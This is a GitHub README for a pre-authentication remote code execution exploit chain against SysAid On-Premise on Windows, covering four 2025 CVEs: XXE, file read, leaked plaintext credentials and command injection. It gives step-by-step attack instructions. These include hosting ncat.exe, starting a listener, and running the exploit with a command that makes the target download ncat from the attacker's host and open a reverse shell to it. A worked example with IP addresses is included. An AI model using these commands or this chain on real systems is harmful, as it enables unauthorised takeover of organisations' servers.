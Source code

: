 <p align="center">
  <img src="[https://www.tomer-gilat.com/wp-content/uploads/2023/12/SysAid-Logo-white-512w.png]" width="300px" alt="SysAid Logo">
</p>

<h1 align="center">SysAid Pre-Auth RCE Chain Exploit</h1>

<p align="center">
  <strong>🔥 CVE-2025-2775 → CVE-2025-2778 RCE Chain</strong><br>
  🧑‍💻 Author: <strong>0xgh057r3c0n</strong> | 🔬 Research: <strong>@SinSinology</strong> & <strong>@watchTowrcyber</strong><br>
  <a href="https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE">
    <img src="https://img.shields.io/github/license/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain?style=flat-square" alt="MIT License">
  </a>
</p>

---

## 🚨 Associated CVEs

| CVE ID         | Description                                                       |
|----------------|-------------------------------------------------------------------|
| **CVE-2025-2775** | XXE vulnerability in `/mdm/serverurl` endpoint                  |
| **CVE-2025-2776** | Arbitrary file read via malicious external DTD (XXE technique)  |
| **CVE-2025-2777** | Credentials stored in plaintext in `InitAccount.cmd`            |
| **CVE-2025-2778** | Authenticated command injection via `javaLocation` parameter    |

These are chained together to achieve **unauthenticated remote command execution**.

---

## 🧩 About

This is a Python-based exploit that targets **SysAid On-Premise** running on **Windows**. It chains multiple vulnerabilities to achieve **pre-authenticated blind RCE**.

---

## 🧰 Requirements

- Python 3.6+
- `requests` module
- Attacker host with HTTP server and Netcat (`ncat`)
- SysAid target running on Windows

Install dependencies:

```bash
pip install requests
````

---

## 🔗 Exploit Chain Overview

1. XXE payload via `/mdm/serverurl` → triggers DTD-based file read
2. Leak `InitAccount.cmd` → extract hardcoded credentials
3. Log in with leaked creds
4. Inject command via `javaLocation` param (blind RCE)

---

## 🖥️ Step-by-Step Usage

### 1️⃣ Download and Host `ncat.exe` (Windows Netcat)

* 📥 Download from official source:
  [https://nmap.org/dist/ncat-portable-5.59BETA1.zip](https://nmap.org/dist/ncat-portable-5.59BETA1.zip)

* Extract `ncat.exe`

* Host it using Python HTTP server:

```bash
cd /path/to/ncat/
python3 -m http.server 80
```

Accessible at:

```
http://<ATTACKER_IP>/ncat.exe
```

---

### 2️⃣ Start a Reverse Shell Listener

On your attacker machine:

```bash
ncat -lvnp 4444
```

---

### 3️⃣ Run the Exploit

#### 🔸 Basic RCE (blind)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c whoami
```

> You won’t get output, but command runs silently.

---

#### 🔹 Reverse Shell (Windows)

```bash
python3 exploit.py -t http://<TARGET_IP>:8080 -l <ATTACKER_IP> -c "cmd.exe /c curl http://<ATTACKER_IP>/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe <ATTACKER_IP> 4444 -e cmd.exe"
```

**Decoded:**

```cmd
cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe
C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe
```

---

## 📦 Example Workflow

```bash
# Host Netcat binary
python3 -m http.server 80

# Start listener
ncat -lvnp 4444

# Launch exploit
python3 exploit.py -t http://192.168.1.100:8080 -l 192.168.1.20 -c "cmd.exe /c curl http://192.168.1.20/ncat.exe -o C:\Windows\Temp\ncat.exe & C:\Windows\Temp\ncat.exe 192.168.1.20 4444 -e cmd.exe"
```

---

## 🧪 Tested On

* ✅ SysAid On-Prem (Windows Server)
* ✅ Python 3.8+
* ✅ ncat.exe from Nmap

---

## 👨‍🔬 Credits

* 🔬 Research: [@SinSinology](https://twitter.com/SinSinology) & [@watchTowrcyber](https://twitter.com/watchTowrcyber)
* 💻 Exploit: **0xgh057r3c0n**

---

## 📜 License

This project is licensed under the MIT License. See the full license here:
🔗 [MIT License on GitHub](https://github.com/0xgh057r3c0n/SysAid-PreAuth-RCE-Chain/blob/main/LICENSE)

